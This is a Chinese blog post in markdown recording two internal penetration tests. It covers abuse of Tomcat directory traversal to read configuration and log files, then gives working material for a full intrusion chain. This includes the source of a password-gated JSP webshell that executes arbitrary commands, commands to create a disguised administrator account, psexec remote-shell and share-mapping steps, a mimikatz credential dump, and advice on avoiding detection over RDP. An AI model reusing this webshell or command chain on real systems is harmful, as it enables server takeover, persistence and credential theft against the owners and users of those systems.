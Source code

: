 ```yaml
---
title: 最近两次内网渗透测试小记
categories: 渗透测试
tags: 渗透测试
toc: true
toc_label: 目录
toc_icon: "cog"
---
```


> 概要：本文记录了近期两次渗透测试的经验

## 1 tomcat站点目录遍历漏洞的利用

**1 利用配置文件获取信息。**

* 全局配置文件`server.xml`。存放在tomcat目录下conf文件夹，主要是`server.xml`，关注host标签、host中得context标签。
* 站点配置文件`web.xml`。全局的web.xml很少有敏感信息，主要关注`webapps/app/WEB-INF/web.xml`，这个配置文件有关于servlet的信息
* 其他配置文件，例如`struct-config.xml`，有关于bean的详细信息

**2 利用日志文件获取信息。**

* 日志文件的格式和存储目录在`servlet.xml`文件中配置
* 日志文件中可能有网站打包的jar文件的文件名
* 日志文件可能有sessionid等信息

------

## 2 JSP小马利用方式

**1 JSP小马**

{% highlight java %}
<%   
     if("password".equals(request.getParameter("pwd"))){       
          java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
          int a = -1;
          byte[] b = new byte[2048];
          out.print("<pre>");
          while((a=in.read(b))!=-1){
               out.println(new String(b));       
          }
          out.print("</pre>");   
}%>
{% endhighlight %}

*PS：以上代码最好改为POST方法*

**2 JSP小马利用**

这个小马利用起来比较麻烦，非交互，而且中文显示也有问题，所以还需要利用jsp小马获得更方便的shell。
如果135，3389无法访问，就比较麻烦了，不过我这次碰到的情况这两个端口都是开启的。

* 利用135端口
	
		net user superuser passwd /add  #添加superuser账户，用户名一定要混淆视听，比如tomcat、sqlserver之类
	
		net localgroup administrators superuser /add  #将用户superuser加入到administrators组
	
		psexec \\ip -u superuser -p passwd "cmd.exe"  #使用psexec远程shell
	
		net use z: \\ip\c$ /superuser:passwd  #映射磁盘到本地z：
	
		mimikatz.exe; privilege::debug; sekurlsa::logonpasswords  #导用户密码；导出用户密码之后最好删除superuser用户
	
* 利用3389端口
	
	利用3389端口远程桌面，这里要注意的是，3389“动作较大”容易被发现，如果是windows server还好，如果是普通windows则很容易被人发现，例如win7，如果黑客使用的不是当前登录的用户的账户，则当前登录的用户会看到一个对话框“某某想要远程登录到这台机器，是否允许”之类，当前用户一定会发现。
	